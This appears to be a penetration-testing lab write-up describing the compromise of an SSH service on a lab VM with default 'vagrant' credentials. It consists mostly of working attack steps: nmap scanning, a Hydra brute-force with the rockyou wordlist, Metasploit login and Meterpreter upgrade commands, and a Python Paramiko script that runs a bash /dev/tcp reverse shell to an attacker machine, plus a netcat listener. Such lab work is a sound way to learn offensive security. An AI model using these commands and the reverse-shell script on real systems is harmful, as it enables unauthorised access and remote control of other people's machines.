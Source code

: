 # Phase 1: Exploitation and Reverse Shell

## ✅ Task 1.1: Compromise the target using Metasploit

### Service Targeted
- **Service**: SSH (OpenSSH 6.6.1p1)
- **Vulnerable Credentials**: `vagrant:vagrant`

### Steps Followed:
1. **Reconnaissance**:
   ```bash
   nmap -sV -p22 192.168.142.131
   ```
   - Identified OpenSSH running on port 22

2. **Brute-Force with Hydra**:
   ```bash
   hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.142.131 -t 4
   ```
   - Discovered working credentials: `vagrant:vagrant`

3. **Exploit with Metasploit**:
   ```
   use auxiliary/scanner/ssh/ssh_login
   set RHOSTS 192.168.142.131
   set USERNAME vagrant
   set PASSWORD vagrant
   run
   ```
   - SSH shell session established

4. **Upgrade to Meterpreter**:
   ```
   use post/multi/manage/shell_to_meterpreter
   set SESSION 1
   set LHOST 192.168.142.129
   set LPORT 4433
   run
   ```
   - Upgraded shell to Meterpreter session


## ✅ Task 1.2: Exploit via Custom Python Script

### Script Summary
- Used Python with Paramiko to automate SSH login and trigger a reverse shell.

### Python Script: `ssh_bruteforce_reverse.py`
```python
import paramiko
import time

host = "192.168.142.131"
port = 22
username = "vagrant"
password = "vagrant"
reverse_shell_cmd = "bash -i >& /dev/tcp/192.168.142.129/4444 0>&1"

client = paramiko.SSHClient()
client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
client.connect(host, port=port, username=username, password=password)

stdin, stdout, stderr = client.exec_command(reverse_shell_cmd)
time.sleep(2)
client.close()
```

### Listener on Attacker Machine
```bash
nc -lvnp 4444
```
- Successful reverse shell received.

---

📸 Screenshots to Include:
- Hydra output showing credentials found
- Metasploit SSH login success
- Meterpreter session after upgrade
- Netcat receiving reverse shell
- Python script execution

